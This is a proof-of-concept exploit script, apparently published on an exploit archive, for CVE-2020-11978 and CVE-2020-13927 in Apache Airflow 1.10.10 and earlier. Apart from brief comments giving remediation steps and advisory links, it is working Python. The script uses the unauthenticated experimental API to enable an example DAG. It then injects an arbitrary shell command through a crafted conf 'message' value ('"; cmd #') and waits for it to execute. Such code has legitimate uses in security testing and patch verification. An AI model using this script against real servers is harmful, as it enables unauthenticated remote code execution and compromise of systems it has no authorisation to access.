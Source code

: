 EXP
---

    # Exploit Title: Apache Airflow 1.10.10 - 'Example Dag' Remote Code Execution
    # Date: 2021-06-02
    # Exploit Author: Pepe Berba
    # Vendor Homepage: https://airflow.apache.org/
    # Software Link: https://airflow.apache.org/docs/apache-airflow/stable/installation.html
    # Version: <= 1.10.10
    # Tested on: Docker apache/airflow:1.10 .10 (https://github.com/pberba/CVE-2020-11978/blob/main/docker-compose.yml)
    # CVE : CVE-2020-11978
    #
    # This is a proof of concept for CVE-2020-11978, a RCE vulnerability in one of the example DAGs shipped with airflow
    # This combines with CVE-2020-13927 where unauthenticated requests to Airflow's Experimental API were allowded by default.
    # Together, potentially allows unauthenticated RCE to Airflow
    #
    # Repo: https://github.com/pberba/CVE-2020-11978
    # More information can be found here:
    # https://lists.apache.org/thread.html/r23a81b247aa346ff193670be565b2b8ea4b17ddbc7a35fc099c1aadd%40%3Cdev.airflow.apache.org%3E
    # https://lists.apache.org/thread.html/r7255cf0be3566f23a768e2a04b40fb09e52fcd1872695428ba9afe91%40%3Cusers.airflow.apache.org%3E
    #
    # Remediation:
    # For CVE-2020-13927 make sure that the config `[api]auth_backend = airflow.api.auth.backend.deny_all` or has auth set.
    # For CVE-2020-11978 use 1.10.11 or set `load_examples=False` when initializing Airflow. You can also manually delete example_trigger_target_dag DAG.
    #
    # Example usage: python CVE-2020-11978.py http://127.0.0.1:8080 "touch test"

    import argparse
    import requests
    import sys
    import time

    def create_dag(url, cmd):
        print('[+] Checking if Airflow Experimental REST API is accessible...')
        check = requests.get('{}/api/experimental/test'.format(url))

        if check.status_code == 200:
            print('[+] /api/experimental/test returned 200' )
        else:
            print('[!] /api/experimental/test returned {}'.format(check.status_code))
            print('[!] Airflow Experimental REST API not be accessible')
            sys.exit(1)

        check_task = requests.get('{}/api/experimental/dags/example_trigger_target_dag/tasks/bash_task'.format(url))
        if check_task.status_code != 200:
            print('[!] Failed to find the example_trigger_target_dag.bash_task')
            print('[!] Host isn\'t vunerable to CVE-2020-11978')
            sys.exit(1)
        elif 'dag_run' in check_task.json()['env']:
            print('[!] example_trigger_target_dag.bash_task is patched')
            print('[!] Host isn\'t vunerable to CVE-2020-11978')
            sys.exit(1)
        print('[+] example_trigger_target_dag.bash_task is vulnerable')

        unpause = requests.get('{}/api/experimental/dags/example_trigger_target_dag/paused/false'.format(url))
        if unpause.status_code != 200:
            print('[!] Unable to enable example_trigger_target_dag. Example dags were not loaded')
            sys.exit(1)
        else:
            print('[+] example_trigger_target_dag was enabled')

        print('[+] Creating new DAG...')
        res = requests.post(
            '{}/api/experimental/dags/example_trigger_target_dag/dag_runs'.format(url),
            json={
                'conf': {
                        'message': '"; {} #'.format(cmd)
                }
            }
        )

        if res.status_code == 200:
            print('[+] Successfully created DAG')
            print('[+] "{}"'.format(res.json()['message']))
        else:
            print('[!] Failed to create DAG')
            sys.exit(1)

        wait_url = '{url}/api/experimental/dags/example_trigger_target_dag/dag_runs/{execution_date}/tasks/bash_task'.format(
            url = url,
            execution_date=res.json()['execution_date']
        )

        start_time = time.time()
        print('[.] Waiting for the scheduler to run the DAG... This might take a minute.')
        print('[.] If the bash task is never queued, then the scheduler might not be running.')
        while True:
            time.sleep(10)
            res = requests.get(wait_url)
            status = res.json()['state']
            if status == 'queued':
                print('[.] Bash task queued...')
            elif status == 'running':
                print('[+] Bash task running...')
            elif status == 'success':
                print('[+] Bash task successfully ran')
                break
            elif status == 'None':
                print('[-] Bash task is not yet queued...'.format(status))
            else:
                print('[!] Bash task was {}'.format(status))
                sys.exit(1)

        return 0


    def main():
        arg_parser = argparse.ArgumentParser()
        arg_parser.add_argument('url', type=str, help="Base URL for Airflow")
        arg_parser.add_argument('command', type=str)
        args = arg_parser.parse_args()

        create_dag(
            args.url,
            args.command
        )

    if __name__ == '__main__':
        main()